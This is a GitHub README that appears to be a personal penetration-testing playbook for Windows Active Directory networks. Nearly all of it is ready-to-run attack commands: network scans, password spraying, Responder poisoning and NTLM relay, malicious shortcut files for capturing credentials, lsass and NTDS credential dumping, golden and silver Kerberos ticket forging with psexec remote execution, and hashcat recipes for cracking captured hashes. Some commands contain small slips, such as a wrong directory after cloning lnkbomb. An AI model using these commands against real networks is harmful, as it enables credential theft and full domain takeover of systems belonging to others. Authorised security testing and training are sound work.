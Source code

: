 # Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader.jpg)

# Toolbox
### NMAP
https://nmap.org/

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
<details>
  <summary> Installation </summary> 

  ```bash
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  ```bash
  chmod +x install.sh
  ./install.sh
  ```  
</details>

### BloodHound
https://github.com/BloodHoundAD/BloodHound
<details>
  <summary> Installation </summary> 
  
  ```bash
  apt-get install bloodhound
  ```
  ```bash
  neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
</details>

### Responder
https://github.com/lgandx/Responder

### lnkbomb
https://github.com/dievus/lnkbomb
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip install pysmb==1.2.2
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/dievus/lnkbomb
  cd pypykatz
  ```
</details>

### CrackMapExec
https://github.com/Porchetta-Industries/CrackMapExec

### Impacket
https://github.com/fortra/impacket

### pypykatz
https://github.com/skelsec/pypykatz
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```bash
  python3 setup.py install
  ```
</details>

### breach-parse
https://github.com/hmaverickadams/breach-parse

### PRET
https://github.com/RUB-NDS/PRET
<details>
  <summary> Installation </summary> 
  
  ```bash
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```bash
  python -m pip install colorama pysnmP
  ```
</details>

## Wordlists
### Generate wordlist
https://zzzteph.github.io/weakpass/

### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)

### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021
https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
 
# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```bash
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```bash
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```bash
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```bash
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```bash
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```bash
  nltest /dclist:<domainname>
  ```
</details>

# Acitve directory enumeration
<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using crackmapexec
      - Anonymous enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```bash
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - crackmapexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```bash
  sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>
  
## Password spray
### Spray a password on a user list
```bash

crackmapexec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
```
# Poisining 
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```bash
  responder -I eth0
  ```

  ### Force lm downgrade
  ```bash
  responder -I eth0 --lm
  ```
 </details>
 <details>
  <summary> lnkbomb </summary> 
  
  ### Create a lnk file for a share with read/write rights
  ```bash
  python3 lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows
  ```
   
  ### Remove the lnk file
  ```basb
  python3 lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows -r dicnwdsebl.url
  ```
</details>
<details>
  <summary> Crackmapexec NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for TLMRelayx
  ```bash
  crackmapexec smb <IPs> --gen-relay-list <outputIPs.txt>
  ```

  ### NTLMRelayx
  ```bash
  sudo python3 ntlmrelayx.py -smb2support -tf <outputIPs.txt>
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```bash
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```
</details>

# Credential dumping
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, crackmapexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> or <hash_LM:NT]> or <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
## pypykatz
### Examine lsass dump
```bash
pypykatz lsa minidump lsass.DMP
```

# golden and silver tickets
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```bash
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```bash
klist
```

#### Execute remote commands with any of the following by using the TGT
```bash
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```bash
sudo umount <./folder>
```

### Search for keywords in files
```bash
grep -i <keyword> *
```

## PRET
### Nmap printers
```bash
nmap -p 9100 <IP/mask>
```
### cheat sheet
```bash
http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
```
### Kickstart PRET 
```bash
pret.py target {ps,pjl,pcl}
```

## Hash cracking
<details>
  <summary> Hashcat </summary> 
  
  ### LM
  ```bash
  hashcat64.exe -m 3000 -a 3 LM-hashes.txt -o cracked.txt
  ```

  ### NTLM
  ```bash
  hashcat64.exe -m 1000 -a 3 NTLM-hashes.txt -o cracked.txt
  ```

  ### NTLMv1
  ```bash
  hashcat64.exe -m 5500 -a 3 NTLMv1-hashes.txt -o cracked.txt
  ```

  ### NTLMv2
  ```bash
  hashcat64.exe -m 5600 -a 0 NTLMv2-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```bash
  hashcat64.exe -m 18200 -a 0 asrep-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```bash
  hashcat64.exe -m 13100 -a 0 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```bash
  hashcat64.exe -m 19600 -a 0 krb5tgsaes128-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```bash
  hashcat64.exe -m 19700  -a 0 krb5tgsaes256.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```bash
  hashcat64.exe -m 19800  -a 0 krb5tetype17.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```bash
  hashcat64.exe -m 19900  -a 0 krb5tetype18.txt <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```bash
  hashcat64.exe -m 2100 -a 0 mscache2-hashes.txt <passlist.txt> -o cracked.txt
  ```
</details>
